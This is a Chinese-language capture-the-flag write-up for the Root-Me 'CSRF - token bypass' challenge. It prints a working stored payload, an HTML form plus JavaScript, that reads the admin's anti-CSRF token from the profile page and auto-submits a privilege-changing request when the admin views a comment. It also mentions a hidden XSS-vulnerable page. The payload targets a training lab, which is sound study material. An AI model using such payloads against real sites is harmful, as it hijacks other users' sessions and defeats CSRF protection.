 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/HTML-disabled-buttons)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/csrf-token-bypass/)]

------

这题与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】是一样的，只是多了一个 token 校验。

切到 Profile 选项卡，打开浏览器开发者工具，切到 Elements ，可以看到激活表单多了一个实时刷新的 `token`，而且在本地找不到关于这个 `token` 的生成代码，因此可以推断这个 `token` 是与登录账号绑定、且由 web 服务器生成的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/01.png)

于是我们的目的就是需要在原本利用 robot-admin 的 Cookie 的基础上，再同时利用其 `token` 。

由此构造 payloads 如下（此 payloads 与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】大致相同，只是多了一个步骤，就是让 robot-admin 先访问 Profile 选项卡获取其 `token`，加到 form 表单后再提交）：

```javascript
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp" />  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on" />  <!-- 激活动作 -->
    <input id="admin-token" type="hidden" name="token" value="" />  <!-- 网站用于防止 CSRF 的 token，需绕过 -->
</form>
<script>

	// 使用 robot-admin 的身份获取 robot-admin 的 token，用于绕过 CSRF 校验
	var request = new XMLHttpRequest();
	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
	request.send(null);	
	var respone = request.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var token = groups[1];
	
	document.getElementById("admin-token").value = token;	// 置换 robot-admin 的 token
	document.csrf.submit();
</script>
```

将 payloads 其拷贝到 Contact 选项卡的 Comment 输入框提交。

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/02.png)

> 注：查看页面源码发现有一个隐藏的选项卡 Search 被注释了 `<!--| <a href="?action=search">Search</a> -->`，打开该选项卡，里面有一个 XSS 漏洞，但是暂时没发现这个漏洞对于本题有什么用（可能只是用来方便我们调试，但应该没那么好心，应该是用来误导的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
